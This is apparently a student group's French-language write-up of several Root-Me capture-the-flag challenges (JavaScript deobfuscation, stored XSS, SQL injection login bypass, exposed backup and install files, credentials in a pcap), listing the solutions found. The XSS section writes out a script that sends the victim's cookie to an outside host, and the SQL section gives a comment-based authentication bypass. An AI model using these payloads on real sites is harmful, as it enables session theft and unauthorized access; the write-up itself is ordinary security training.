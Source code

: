 # RootMe
RootMe du groupe Gabriel C, Benjamin D et Romain M


# Challenge client web

## Javascript - Obfuscation 3

### Première tentative :

Essayer différents password de base :
-admin -0000 -1234 -motdepasse -code
Idée non concluante  

### Deuxième tentative :

Regarder dans le code et je me rend compte que dans tout les cas il indique que le mdp est faux dans il faut rentrer le mdp directement sur la page daceuil .
Lecture de la ligne : « var pass = "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65"; »
Essaie des différents chiffres en tant que mot de passe.
Idée non concluante  

### Troisième tentative :

Lecture de la ligne : » p += String.fromCharCode((o = tab2[i])); »
Le « fromCharCode » prouve qu’il y a une conversion d’un type de caractère dans un tableau
Le seul tableau qui me vient a l’esprit c’est la table d’ascii
Je passe cette ligne de nombre dans le tableau et le rentre dans le mot de passe.
« "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65" »
Idée non concluante  

### Quatrième tentative :

Je prends cette ligne et fait pareil.
\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30
Idée non concluante  

### Cinquième tentative :

Puis je sélectionne cette ligne et je commence à le convertir en décimal car généralement le code son en décimal.
 « \x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30 »
On obtient 55,56,54,79,115,69,114,116,107,49,5 ce n’est pas le mdp.
Idée non concluante  

### Sixième tentative :


Je décide donc d’analyser et d’effectuer un 
console.log(String.fromCharCode(55,56,54,79,115,69,114,116,107,49,50)); » et cela nous donne donc le mdp.
Ce qui donne : 786OsErtk12. 
Chalenge réussi 

## XSS - Stockée 1

### Première tentative : 

Je regarde dans le code au cas où mais il y a aucun indice contenant le mdp mais je remarque que le champ texte est vulnérable à des injections de balise HTML et permet ainsi l'injection de code. Alors je fais un test en mettant <script>Alert.alert(« yo »)<script> et je suis sur la bonne piste car il affiche un pop-up donc le champ de texte est bien vulnérable à l’ingestion de code.

Bonne piste alors je continue 

Grâce au site : Inspecter les | de requête HTTP Inspecteur de demande (requestinspector.com)
Je peux inspecter les requêtes et obtenir les cookies
  
J’écris cette commande dans le contenue du message est envoie le message :

« <script>window.location="http://sandbox-209707.appspot.com/" + document.cookie;</script> »
Puis inspecter les logs du site et je tombe sur ça :
![image](https://user-images.githubusercontent.com/91453648/168331861-df322ad8-bc99-4691-a964-0e6e18097df6.png)
 

Chalenge réussi 

## SQL injection - Authentification
 
###Première tentative :

Essayer différents password de base :
-admin -0000 -1234 -motdepasse -code
On obtient alors une erreur avec le mot clés "near".
Idée non concluante  

### Deuxième tentative :

Comme la base de données est une base sql on peux essayer de mettre une balise de commentaire « */ » pour que ca ne prenne pas en compte le contenue de ce commentaire.
Login :  « admin ‘/**/ » 
« ‘ » est ici car c’est username`='XXXX’
Idée non concluante

### Troisième tentative :  

Essayer de laisser ouvert la ligne de commentaire pour « supprimer » le mdp ?
Ce qui donnerai « admin' /* » et en mdp n’importe quoi car c’est en commentaire.
Il suffit d’utiliser le même mdp pour valider le défis.

Chalenge réussi 



# Web serveur: 

## Fichier de sauvegardes :

Le challenge nous mène sur une page dont l’url est la suivante : 
« http://challenge01.root-me.org/web-serveur/ch11/ »

On ajoute à la fin de cet URL “index.php~” qui va donc nous permettre de visualiser le contenu du fichier. 
![image](https://user-images.githubusercontent.com/91453648/168332121-e5dc629e-727d-4434-ad91-3ae41202d57a.png)


Le mot de passe est donc apparent dans le fichier. 
La solution est   “OCCY9AcNm1tj”.



## Install Files:

En observant le code source de la page, on trouve ceci : 

 ![image](https://user-images.githubusercontent.com/91453648/168332158-95e5a11e-aa34-4db1-8a54-6eb50c7fd33a.png)


Après quelque recherche sur google sur phpbb, je suis tombé sur ca: 

 ![image](https://user-images.githubusercontent.com/91453648/168332174-110e093d-9d93-4117-80ee-356c806e774c.png)


J’ai donc ajouté à l’url phpbb/install/ puis suis arrivé sur la page ci-dessous. 

 ![image](https://user-images.githubusercontent.com/91453648/168332190-a04e8a58-788c-4098-8c00-1945b7e8ae60.png)


Après avoir installé le fichier “install.php”, on obtient le message suivant : 


![image](https://user-images.githubusercontent.com/91453648/168332199-883d6367-11d1-4d8b-832c-fccb3eabf516.png)








# Réseaux: 

## Authentification twitter :

On récupère le document “ch3.pcap” et on l’ouvre avec wireshark. 

On va dans Hypertext Transfer Protocol, puis dans Autorization, ou il y a les lignes Credentials : usertest:password 

Le mot de passe est donc “password”.


